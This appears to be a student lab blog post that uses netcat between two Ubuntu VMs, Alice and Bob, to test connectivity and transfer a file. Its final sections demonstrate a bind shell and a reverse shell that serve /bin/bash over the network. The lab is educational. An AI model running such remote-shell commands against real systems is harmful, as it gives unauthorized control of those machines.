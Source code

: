 ```yaml
---
layout: default
categories: posts
title: Blog 7
---
```


## Transferring files between two hosts through Ubuntu commands

At the first step we need to run two hosts on two different virtual machines. So we name the first host Alice and second Bob. Now we want to make sure the both sides can see eachother so we run the ping command on both ends. On each machine 
On each VM, while still connected to NAT, we execute the following command "apt-get install netcat" then "sudo update-alternatives --config nc" (and select option 2, nc.traditional, when prompted)
Next step we put each VM on the Host-Only Adapter network. Each should have an IP like 192.168.56.101.

We need to make sure the devices can ping each other
Record and keep the IPv4 IP Address of Bob 
Record and keep the IPv4 IP Address of Alice 


### Testing the first communication between two hosts

On Alice's computer we execute "nc -nlvp 4444 then on Bob's execute nc -nv ip.address.of.alice 4444

### Transferring files between two hosts

At alice, we execute this command: echo “Secret Message” > payload.txt
Next at bob, we execute: nc –nlvp 4444 > fromAlice.txt
Then at alice, we execute: nc –nv ip.addr.of.bob 4444 < payload.txt
When the transmission is finished, type CTRL-C on alice’s side

![pic1](https://raw.githubusercontent.com/sevak84/sb.github.io/master/docs/_images/blog7-01.PNG)


### Bind Shell 
At alice, we execute: touch foo.bar (to make a file named foo.bar in current directory)
At alice, we execute: nc –nlvp 4444 –e /bin/bash
At bob, we execute: nc –nv ip.addr.of.alice 4444
At bob, we type “ls” and press enter
At bob, we type “whoami” and press enter

### Reverse Shell
At alice, we execute: nc –nlvp 4444
At bob, we execute: nc –nv ip.addr.of.alice 4444 –e /bin/bash
When connected, at alice, we type “whoami” and press enter
At alice, we type “ls” and press enter

At the end we can see the files are trasferrring between two hosts with commands on Ubuntu. 

![pic2](https://raw.githubusercontent.com/sevak84/sb.github.io/master/docs/_images/blog7-02.PNG)

![pic3](https://raw.githubusercontent.com/sevak84/sb.github.io/master/docs/_images/blog7-03.PNG)








